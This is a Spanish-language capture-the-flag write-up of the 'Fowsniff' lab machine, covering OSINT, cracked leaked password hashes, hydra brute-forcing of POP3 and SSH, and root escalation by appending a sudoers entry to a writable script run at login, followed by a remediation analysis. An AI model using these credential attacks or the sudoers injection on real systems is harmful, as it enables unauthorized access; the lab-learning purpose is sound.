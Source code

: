 # Fowsniff
Máquina no muy complicada pero explota un par de conceptos guapos, y el root esta guapo

Interesante: POP3 enumeration , OSINT
## Initial Scan
```
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP USER PIPELINING UIDL AUTH-RESP-CODE CAPA RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: post-login Pre-login capabilities more listed ID have IDLE AUTH=PLAINA0001 ENABLE SASL-IR OK LITERAL+ LOGIN-REFERRALS IMAP4rev1
```

## Enum
### HTTP

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```
Parece que aquí esta todo correcto, veamos las RRSS de la empresa

### RRSS
```
https://twitter.com/fowsniffcorp
```
Parece que les han pawneado veamos mas a fondo
```
https://pastebin.com/NrAqVeeX
```
Tenemos una serie de hashes, veamos cuales desencriptamos
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
Veamos cuales podemos crackear con crackstation
```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```
Solo nos falta la pass de stone, el sysadmin

## Pop3

Generamos una wordlist con los users y passwords hallados y testamos en el pop3

```bash
 pj@THM$ hydra -L users.txt -P pass.txt 10.10.208.167 pop3
 [110][pop3] host: 10.10.208.167   login: seina   password: scoobydoo2
```
Entremos
```pop3
pj@crow-foot:~$ nc 10.10.208.167 110
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
RETR 1
 +++++++++++++++++++++
 The temporary password for SSH is "S1ck3nBluff+secureshell"
 +++++++++++++++++++++
```
### SSH

Entramos en 

```
pj@THM$ hydra -L users.txt -p "S1ck3nBluff+secureshell" 10.10.208.167 ssh
[22][ssh] host: 10.10.208.167   login: baksteen   password: S1ck3nBluff+secureshell
```

## Privesc

Una vez dentro
```
baksteen@fowsniff:~/Maildir$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
El grupo users es sospechoso 
```
baksteen@fowsniff:~/Maildir$ find / -group users 2> /dev/null
/opt/cube/cube.sh
```
Veamos el script 
```
baksteen@fowsniff:~/Maildir$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```
Así mejor 

```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

echo 'baksteen  ALL=(ALL:ALL) ALL' >> /etc/sudoers 
```
Mirando el 00-header vemos que se invoca al script cada vez que alguien se logea,veamos si podemos explotar esto

Ahora salimos y entramos de nuevo con la diferencia de que:
```
User baksteen may run the following commands on fowsniff:
    (ALL : ALL) ALL
```

Y ya somos root.

## Easter Egg

```
baksteen@fowsniff:~$ cat /var/www/html/security.txt 
       WHAT SECURITY?

            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |
|       .oooO                |
|        (   )   Oooo.       |
+---------\ (----(   )-------+
           \_)    ) /
                 (_/


Fowsniff Corp got pwn3d by B1gN1nj4!


No one is safe from my 1337 skillz!
```
# Analisis de la intrusión
### Bad pwn managment
Parece que la compañia ha sido pwneada, y el autor ha leakeado los hashes de las contraseñas de los empleados del sistema
### Bad Password police
Algunas de las contraseñas de los empleados estan presentes en diccionarios comunes
### Defaul pass
Tras el pwn la contraseña por defecto de todos los empleados ha sido cambiada a la misma y alguno de los usuarios noo la ha cambiado de nuevo
### Privileged writable script
Existe un archivo que se ejecuta como root (00-header) al logease en el sistema , este archivo llama a un archivo llamdo cube.sh sobre el cual tenemos privlegios de escritura, esto conlleva que el mismo se un vector de Privesc
# Solución
### Bas pwn managment
Tras un ciberataque a la compañia todas las contraseás deberian ser cambiadas de todos los servicios cosa que no se llevo a cabo
### Privileged writable scrip
El script cube.sh no deberia tener permisos de edición para usuarios normales, de hecho la mejor solucion es que dicho script estuviera directamente escrito en el 00-header
